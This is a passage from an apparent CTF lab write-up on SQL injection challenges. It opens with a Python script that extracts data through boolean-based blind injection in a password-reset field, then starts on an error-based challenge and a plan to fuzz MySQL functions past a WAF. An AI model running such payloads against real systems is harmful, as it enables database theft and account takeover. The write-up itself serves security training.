 ```python

# Extract the query result
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+[]{}|;:,.<>?/`~-=\\\"' "
flag = ""
for position in range(1, query_length + 1):
    for char in chars:
        payload = f"username=admin' and substring(({query}),{position},1)='{char}&reset_password="
        response = requests.post(url, headers=headers, data=payload)
        if target_text in response.text:
            flag += char
            print(f"Extracted so far: {flag}")
            break

print(f"Extracted query result: {flag}")
```



## SQL - Error based Challenge

The challenge from [Cyard](https://cyard.0x4148.com/).

The `Error based` challenge has the same UI as `Boolean based` challenge.

![WAF_Challenge_Test](D:\Vulnerabilities_Tutorial\Practice\Error_Based_Challenge.png)

So without wasting time let's intercept the request from password reset again and inject single quote.

We can see SQL error in the response which indicates to SQL Injection.

![Error_Based_Challenge_test](D:\Vulnerabilities_Tutorial\Practice\Error_Based_Challenge_test.png)

Before trying to exfiltrate data, we need to fix the query to determine how we can exploit it.

![Error_Based_Challenge_test_fix_query](D:\Vulnerabilities_Tutorial\Practice\Error_Based_Challenge_test_fix_query.png)

As we saw in the `error-based` previous challenges, so we will focus on the data returned from SQL function errors not the extracting data directly.

If we use `extractvalue()` or `updatexml()`, response will show us the following error.

![Error_Based_Challenge_waf](D:\Vulnerabilities_Tutorial\Practice\Error_Based_Challenge_waf.png)

What we can do here?

Good question! we can go to database documentation and check for functions that trigger an error and we can control this error to retrieve data or collect all possible functions and fuzz for them to check if any of them returns controlled error.

As the application uses `php`, we can assume that the used database is `MySQL`. So, we can go to `MySQL` documentation and collect all function and use them for fuzzing.

> I will use `concat('abc', 'xyz')` and the expected value should be returned in the response is `abcxyz`. 
